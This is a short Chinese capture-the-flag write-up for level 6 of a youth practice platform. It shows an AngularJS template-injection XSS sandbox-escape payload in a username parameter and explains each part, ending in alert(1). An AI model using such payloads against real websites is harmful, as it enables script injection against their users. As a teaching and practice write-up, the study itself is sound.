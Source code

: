 ### Angular JS 模板注入 XSS

话不多说，直接上题（青少年 CTF 练习平台）

![](https://pic1.imgdb.cn/item/68184d6958cb8da5c8dcab87.png)

**第六关**

测试发现存在模板注入漏洞

![](https://pic1.imgdb.cn/item/68184d8d58cb8da5c8dcab96.png)

构造 payload，[参考文章](https://juejin.cn/post/6891628594725847047#heading-4)

```
?username={{'a'.constructor.prototype.charAt=[].join;$eval('x=1} } };alert(1)//');}}
```

`'a'.constructor.prototype.charAt=[].join`

- `'a'.constructor` 获取字符串的构造函数（String）
- `prototype.charAt` 访问 String 原型上的 charAt 方法
- 将 charAt 方法替换为数组的 join 方法

`$eval('x=1} } };alert(1)//')`

- `$eval` 是 AngularJS 的一个方法，用于执行字符串形式的表达式
- 注入的代码 `x=1} } };alert(1)//` 包含：
  - `x=1` - 一个简单的赋值，部分目的是为了闭合前面的语法
  - `} } }` - 多个闭合括号，用于逃逸 AngularJS 的模板解析
  - `;alert(1)` - 实际要执行的恶意代码
  - `//` - JavaScript 注释，用于注释掉后续可能存在的代码
